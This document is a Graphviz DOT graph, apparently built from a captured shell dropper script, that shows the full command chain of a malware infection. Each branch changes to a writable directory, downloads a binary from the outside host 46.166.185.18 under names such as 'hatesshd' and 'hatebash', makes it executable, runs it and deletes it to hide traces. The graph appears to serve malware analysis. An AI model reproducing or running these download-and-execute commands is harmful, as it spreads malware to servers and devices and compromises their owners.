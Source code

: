 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://46.166.185.18/hatentpd "];
10 -> 12 [label=";,"];
12 [label="chmod +x hatentpd "];
12 -> 14 [label=";,"];
14 [label="./hatentpd "];
14 -> 16 [label=";,"];
16 [label="rm -rf hatentpd "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://46.166.185.18/hatesshd "];
28 -> 30 [label=";,"];
30 [label="chmod +x hatesshd "];
30 -> 32 [label=";,"];
32 [label="./hatesshd "];
32 -> 34 [label=";,"];
34 [label="rm -rf hatesshd "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://46.166.185.18/hateopenssh "];
46 -> 48 [label=";,"];
48 [label="chmod +x hateopenssh "];
48 -> 50 [label=";,"];
50 [label="./hateopenssh "];
50 -> 52 [label=";,"];
52 [label="rm -rf hateopenssh "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://46.166.185.18/hatebash "];
64 -> 66 [label=";,"];
66 [label="chmod +x hatebash "];
66 -> 68 [label=";,"];
68 [label="./hatebash "];
68 -> 70 [label=";,"];
70 [label="rm -rf hatebash "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://46.166.185.18/hatetftp "];
82 -> 84 [label=";,"];
84 [label="chmod +x hatetftp "];
84 -> 86 [label=";,"];
86 [label="./hatetftp "];
86 -> 88 [label=";,"];
88 [label="rm -rf hatetftp "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://46.166.185.18/hatewget "];
100 -> 102 [label=";,"];
102 [label="chmod +x hatewget "];
102 -> 104 [label=";,"];
104 [label="./hatewget "];
104 -> 106 [label=";,"];
106 [label="rm -rf hatewget "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://46.166.185.18/hatecron "];
118 -> 120 [label=";,"];
120 [label="chmod +x hatecron "];
120 -> 122 [label=";,"];
122 [label="./hatecron "];
122 -> 124 [label=";,"];
124 [label="rm -rf hatecron "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://46.166.185.18/hateftp "];
136 -> 138 [label=";,"];
138 [label="chmod +x hateftp "];
138 -> 140 [label=";,"];
140 [label="./hateftp "];
140 -> 142 [label=";,"];
142 [label="rm -rf hateftp "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://46.166.185.18/hatepftp "];
154 -> 156 [label=";,"];
156 [label="chmod +x hatepftp "];
156 -> 158 [label=";,"];
158 [label="./hatepftp "];
158 -> 160 [label=";,"];
160 [label="rm -rf hatepftp "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://46.166.185.18/hatesh "];
172 -> 174 [label=";,"];
174 [label="chmod +x hatesh "];
174 -> 176 [label=";,"];
176 [label="./hatesh "];
176 -> 178 [label=";,"];
178 [label="rm -rf hatesh "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://46.166.185.18/hate "];
190 -> 192 [label=";,"];
192 [label="chmod +x hate "];
192 -> 194 [label=";,"];
194 [label="./hate "];
194 -> 196 [label=";,"];
196 [label="rm -rf hate "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://46.166.185.18/hateapache2 "];
208 -> 210 [label=";,"];
210 [label="chmod +x hateapache2 "];
210 -> 212 [label=";,"];
212 [label="./hateapache2 "];
212 -> 214 [label=";,"];
214 [label="rm -rf hateapache2 "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://46.166.185.18/hatetelnetd "];
226 -> 228 [label=";,"];
228 [label="chmod +x hatetelnetd "];
228 -> 230 [label=";,"];
230 [label="./hatetelnetd "];
230 -> 231 [label=";,"];
}
